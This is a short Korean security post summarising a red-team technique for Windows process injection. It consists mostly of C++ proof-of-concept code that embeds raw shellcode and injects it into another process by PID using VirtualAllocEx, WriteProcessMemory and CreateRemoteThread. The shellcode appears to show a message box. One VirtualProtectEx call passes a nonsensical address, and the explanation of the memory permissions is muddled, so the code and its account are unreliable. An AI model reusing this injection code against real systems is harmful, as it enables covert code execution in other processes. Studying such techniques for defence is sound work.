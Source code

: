 ```yaml
---
title: "[하루한줄] Process Injection without Write/Execute Permission"
author: idioth
tags: [idioth, process injection, cpp, shellcode, redteam]
categories: [1day1line]
date: 2021-06-28 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL 

[Process Injection without Write/Execute Permission](https://xret2pwn.github.io//process-inection/)



## Target

- Windows



## Explain

해당 블로그에서 non-writable allocation에 shellcode를 작성하고 non-executable allocation에서 이를 실행하는 방법이 공개되었습니다.

먼저 non-writable allocation에 `VirtualAlloc`을 통해 `PAGE_EXECUTE_READ` 권한을 부여하여 shellcode를 작성합니다.

```cpp
void* exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READ);
printf("[+] Allocation created successfully %p \n", exec);

if (WriteProcessMemory(GetCurrentProcess(), exec, shellcode, sizeof(shellcode), NULL)) {
    printf("[+] Shellcode wrote successfully.");
}
else {
    printf("[-] No permission to write the shellcode.");
}
```

![screenshot_4](https://xret2pwn.github.io/assets/img/posts/Process_Injection/cpp_write_the_shellcode_executed.png)

성공적으로 shellcode가 작성됨을 확인할 수 있습니다. 그 후 해당 영역 (non-executable allocation)에 `PAGE_READONLY` 권한을 부여합니다. 하지만 DEP (Data Execution Prevention) 보호 기법으로 인해 메모리에서 직접 shellcode를 실행할 수 없습니다. 따라서 DEP가 걸려있지 않은 프로세스를 찾아 해당 프로세스에 shellcode를 injection 하면 읽기/쓰기 권한 없이 shellcode를 실행할 수 있습니다.

POC는 다음과 같습니다.

```cpp
#include <stdio.h>
#include <Windows.h>

int main(int argc, char* argv[])
{
    unsigned char shellcode[] =
        "\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9\x64\x8b"
        "\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08\x8b\x7e\x20\x8b"
        "\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1\xff\xe1\x60\x8b\x6c\x24"
        "\x24\x8b\x45\x3c\x8b\x54\x28\x78\x01\xea\x8b\x4a\x18\x8b\x5a"
        "\x20\x01\xeb\xe3\x34\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0"
        "\xfc\xac\x84\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c"
        "\x24\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5a"
        "\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c\x61\xc3\xb2"
        "\x08\x29\xd4\x89\xe5\x89\xc2\x68\x8e\x4e\x0e\xec\x52\xe8\x9f"
        "\xff\xff\xff\x89\x45\x04\xbb\x7e\xd8\xe2\x73\x87\x1c\x24\x52"
        "\xe8\x8e\xff\xff\xff\x89\x45\x08\x68\x6c\x6c\x20\x41\x68\x33"
        "\x32\x2e\x64\x68\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89"
        "\xe6\x56\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c"
        "\x24\x52\xe8\x5f\xff\xff\xff\x68\x6f\x78\x58\x20\x68\x61\x67"
        "\x65\x42\x68\x4d\x65\x73\x73\x31\xdb\x88\x5c\x24\x0a\x89\xe3"
        "\x68\x70\x77\x6e\x58\x68\x52\x65\x74\x32\x31\xc9\x88\x4c\x24"
        "\x07\x89\xe1\x31\xd2\x52\x53\x51\x52\xff\xd0\x31\xc0\x50\xff"
        "\x55\x08";

    HANDLE processHandle;
    HANDLE remoteThread;
    PVOID remoteBuffer;
    DWORD oldPerms;
    DWORD PID = 17968;
    printf("Injecting to PID: %i", PID);
    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
    remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READ);
    WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
    VirtualProtectEx(processHandle, (LPVOID)sizeof(processHandle), sizeof(shellcode), PAGE_READONLY, &oldPerms);
    remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    CloseHandle(processHandle);

    return 0;
}
```

